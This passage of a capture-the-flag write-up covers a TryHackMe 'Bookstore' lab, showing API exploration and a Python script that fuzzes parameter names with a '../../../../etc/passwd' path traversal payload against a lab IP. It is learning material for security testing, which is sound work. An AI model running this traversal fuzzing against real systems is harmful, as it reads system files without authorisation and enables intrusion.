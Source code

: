 ![Port5000-APIconsole](https://raw.githubusercontent.com/allenjedb/HaxNotes/main/writeups/THM/Bookstore/img/5.png "API Console")

I checked **_/api_** and we can see a documentation on how to use the API.

![Port5000-APIdoc](https://raw.githubusercontent.com/allenjedb/HaxNotes/main/writeups/THM/Bookstore/img/3.png "API Doc")

I tried accessing `/api/v2/resources/books?id=1` and it gave me a json result

```json
[
  {
    "author": "Ann Leckie ", 
    "first_sentence": "The body lay naked and facedown, a deathly gray, spatters of blood staining the snow around it.", 
    "id": "1", 
    "published": 2014, 
    "title": "Ancillary Justice"
  }
]
```

Now we can try to check if there are other parameters supported by replacing the `id` parameter.

I created a little python script to do this. First I tried `/api/v2/resources/books?<params>=../../../../etc/passwd` but did not find anything so I changed **_v2_** to **_v1_** and it worked. `/api/v1/resources/books?<params>=../../../../etc/passwd`

```python
import requests
import sys

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"} #proxy for burp
def set_session():
    global req
    global ses
    global url
    ses = requests.Session()
    url = "http://10.10.87.239:5000"
    try:
         req = ses.get(url)
    except:
         print("Unable to fetch URL")
         sys.exit()
set_session()
dir = '/api/v1/resources/books?id=../../../../../../../etc/passwd' #dir to bruteforce
with open('/home/all3n/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt') as p: #open raft and replace id from dir
    for fuzz in p:
        fuzz = fuzz.strip()
        dir_rep = dir.replace("id", fuzz, 1)
        url_dir = url + dir_rep
        res = ses.get(url_dir, proxies=proxies)
        print(res.status_code)
        print(url_dir)
        if res.status_code == 404:
            sys.stdout.write("\033[F") #cursor up oneline
            sys.stdout.write("\033[K") #clear things
            sys.stdout.write("\033[F") #cursor up oneline
            sys.stdout.write("\033[K") #clear things
        if res.status_code == 200:
            continue
print(dir_rep)
print(res.text)
```
        